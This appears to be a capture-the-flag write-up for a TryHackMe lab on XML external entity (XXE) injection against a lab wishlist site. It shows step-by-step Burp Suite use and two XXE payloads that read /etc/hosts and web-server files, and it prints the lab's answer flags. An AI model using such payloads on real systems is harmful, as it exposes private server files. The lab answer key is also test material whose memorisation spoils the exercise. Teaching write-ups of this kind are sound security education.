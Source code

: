 # Day 5: SOC-mas XX-what-ee?

**Connection to the Machine:**
To begin, a virtual machine and AttackBox were utilized for the analysis.

## Approach:

- Analyzed the website: http://10.10.158.231/.

  ![image](https://github.com/user-attachments/assets/a9eace36-dfff-4698-9ba2-34b9b4d8a842)

- `Wish #21` indicates that there are 20 more wishes placed by other users.
- Upon clicking `Wish #21`, a forbidden page is encountered which can only be accessed by admins - `/wishes/wish_1.txt`.

  ![image](https://github.com/user-attachments/assets/978c08d8-0fed-44fd-8bd7-829596e7718f)

- Opened Burp Suite.
- Enabled `Allow Burp's browser to run without a sandbox` option from settings.
- Opened Burp's browser from the Proxy -> Intercept tab and went to the given URL: http://10.10.158.231/.
- Clicked `Add to Wishlist` which was logged in Burp Suite. The request contained XML being forwarded as a POST request.
- Sent the POST request to `Repeater`.
- Updated the XML payload with the new data and then sent the modified request.
 
  new payload:
  
```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/etc/hosts"> ]>
<wishlist>
  <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
</wishlist>
```

![image](https://github.com/user-attachments/assets/7b1e50dc-1243-4737-964e-18198b8adefa)

- Updated the XML payload in order to read the wishes of the townspeople using the `/wishes/wish_1.txt` page and then sent the modified request.

```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_1.txt"> ]>
<wishlist>
	<user_id>1</user_id>
	<item>
	       <product_id>&payload;</product_id>
	</item>
</wishlist>
```

![image](https://github.com/user-attachments/assets/66a698a4-9499-4215-a156-c38a8599344c)

- Iterated through the wishes (wish_1.txt, wish_2.txt, ...) and found the flag on wish 15.

![image](https://github.com/user-attachments/assets/69b3c27f-779d-4106-9faf-5ef5a22970b5)

---

## Answers to the given questions:

What is the flag discovered after navigating through the wishes?

```
THM{Brut3f0rc1n6_mY_w4y}
```

---

What is the flag seen on the possible proof of sabotage?

```
THM{m4y0r_m4lw4r3_b4ckd00rs}
```

A CHANGELOG file exists within the web application, stored at the following endpoint: http://10.10.158.231/CHANGELOG

![image](https://github.com/user-attachments/assets/e5e9397e-678a-49db-a603-54a96573e93a)

---

![image](https://github.com/user-attachments/assets/5087481b-2962-411a-93ac-e242567b509b)
